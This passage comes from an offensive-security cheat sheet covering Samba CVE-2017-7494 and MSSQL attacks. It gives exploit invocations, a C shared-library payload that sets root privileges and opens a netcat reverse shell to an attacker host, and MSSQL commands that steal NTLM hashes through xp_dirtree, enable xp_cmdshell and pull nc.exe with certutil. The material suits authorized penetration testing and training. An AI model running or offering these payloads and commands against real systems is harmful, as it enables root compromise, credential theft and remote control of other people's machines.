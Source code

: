 ```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

If you reiceve 3 pings on your listener then the exploit works. Now let's get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

---

### MSSQL -> 1433

#### Get information

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```
